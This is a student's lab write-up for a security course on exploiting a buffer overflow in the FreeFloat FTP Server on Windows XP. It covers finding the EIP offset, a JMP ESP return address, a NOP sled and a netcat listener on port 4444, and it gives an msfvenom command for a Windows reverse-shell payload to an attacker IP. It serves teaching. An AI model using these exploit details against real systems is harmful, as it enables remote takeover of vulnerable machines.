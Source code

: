 ## CPSC 42700 Project 6: Exploiting the FreeFloat FTP Server on Windows XP
# Causing a crash 
The first part of the project I did was making sure that I could crash the program by feeding in a large amount of "A's". I decided that “A*768” would be plenty enough to crash it. Once I ran the code it did crash the program on the XP machine. Meaning there were no issues with the network, code or programs.
# Determining the return address offset
The second part of the project was finding the correct offset for the EIP address. The EIP is the return address and tells the computer where to go to execute the next command. When we filled the buffer with all "A's", we did, in fact, overwrite the EIP with (“42 42 42 42”). But this doesn’t help us because it doesn’t correctly differentiate it from the other strings of "A's". To fix this we created a specific generator that generates a pattern of unique characters. Using this genPattern function I filled the buffer again, making sure to overwrite the EIP value. 
This time when I looked at the overflown buffer, I can see that the EIP has changed to a series of four hex codes. At this point, I now have the reverse of the characters that I need. After swapping them around, I’m left with four identifiable Ascii hex’s (“41 69 32 41”). Which translates into “Ai2A”. Using the "find" command we can then see the exact number that those hex characters occur in the generator. In this case, the offset was "246". I can also double check this number by adding 4 "B's". If the EIP becomes the hex codes for B, I will know I have the right offset.
# Finding a JMP ESP instruction 
Now instead of filling the EIP with “B’s” we want to fill it with something else. In this case, we want to fil it with the JMP ESP instruction. This instruction will allow us to jump to the shellcode. I search the shell32.dll to get the JMP ESP value which was (“\x20\x10\xB4\x7C”). This can be done just by using the CTRL + F and searching for the JMP ESP value.
At this point, I added a Nopsled character 16 times, this allows you to basically slide right into the area of the stack that you want to be. In this case, the code will “slide" down all the NOP’s and hit the shellcode. Then we can fill the rest of the stack with “C’s”.
# Generating and Inserting Shellcode
Now we’re done building the code and can now construct the msfvenom BUF code. When building msfvenom code we need to avoid bad characters and fill in the correct listening host IP address.  Because size is a limit the code both must be small and not use any bad bytes. Fortunately, msfvenom handles all of this for us and gives us the corresponding buf code to add to our script.
Then all that’s left is to overflow the stack one more time. At the same time, I also set up net cat to listen to port 4444 of anything. When the buffer gets overflow the msfvenom attack will call out to us. Now we have a reverse shell interface that we can use for further attacks against the target machine. Even though only one program was vulnerable we used it to leverage access to the entire system.

# Offset: 246
# JMP ESP: \x20\x10\xB4\x7C
# Msfvenom Code: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.11 -b '\x00\x0A\x0d\x3d\x20\xff\x40' -f python
## Mistakes
One mistake I made that cost me a good bit of time was accidently filling in the LHOST with the wrong address. I was accidently putting the IP of the victim machine and not the attackers IP.
The only other major mistake I made was forgetting that the EIP address is reversed. I was very confused as to why it was giving me a value of “A2iA”. I thought at first, I was looking at the wrong address because that string wasn’t in the generator. Then finally it clicked in my head that it was reversed and was really “AI2A”.
